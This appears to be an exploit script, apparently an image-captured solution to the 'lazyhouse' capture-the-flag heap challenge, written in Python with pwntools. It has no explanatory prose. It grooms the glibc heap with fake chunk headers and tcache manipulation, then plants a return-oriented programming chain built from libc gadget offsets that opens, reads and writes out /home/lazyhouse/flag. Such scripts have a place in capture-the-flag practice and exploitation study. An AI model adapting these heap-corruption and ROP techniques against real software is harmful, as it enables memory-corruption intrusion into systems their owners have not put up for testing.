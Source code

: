 ```python
target = heap+0x8b0
buy(6,0x80,"\x00"*8+p64(size+1)+p64(target-0x18)+p64(target-0x10)+p64(target-0x20))
buy(5,0x80,"a")
buy(0,0x80,"a")
buy(1,0x80,"a")
buy(2,0x600,"\x00"*0x508+p64(0x101))
Upgrade(1,"\x00"*0x80+p64(size)+p64(0x610))
remove(2)
context.arch = "amd64"
size = 0x6c0
buy(2,0x500,"\x00"*0x78+flat(size+1,[0]*17)+
        flat(0x31,[0]*5,0x61,[0]*11,0x21,[0]*3,0x71,[0]*13))
remove(0)
remove(1)
remove(2)


buy(0,0x1a0,p64(0)*15+p64(0x6c1))
buy(1,0x210,"a")

buy(2,0x210,"a")
remove(2)
buy(2,0x210,"\x00"*0x148+p64(0xd1))
remove(2)
for i in range(5):
    buy(2,0x210,"a")
    remove(2)

buy(2,0x3a0,"a")
remove(2)


remove(1)
buy(1,0x220,"a")
remove(5)
buy(5,0x6b0,"\x00"*0xa0+p64(heap+0x40)+"\x00"*0x80+p64(0x221)+p64(libc+0x1e4eb0)+p64(heap+0x40))
remove(1)
buy(1,0x210,"a"*0x18+flat(
"/home/lazyhouse/flag".ljust(0x20,"\x00"),
libc+0x26542,heap+0xa88-0x20,libc+0x26f9e,0,libc+0x47cf8,2,libc+0x00cf6c5,
libc+0x26542,0x3,libc+0x26f9e,heap,libc+0x12bda6,0x100,libc+0x47cf8,0,libc+0x00cf6c5,
libc+0x26542,0x1,libc+0x26f9e,heap,libc+0x12bda6,0x100,libc+0x47cf8,1,libc+0x00cf6c5,
libc+0x36784
))
buy(2,0x210,p64(0)*0x20+p64(libc+0x1e4c30))
Super(p64(libc+0x0058373)+"z"*0x200)
remove(1)

buy(1,heap+0xa80,"a")

r.interactive()
```
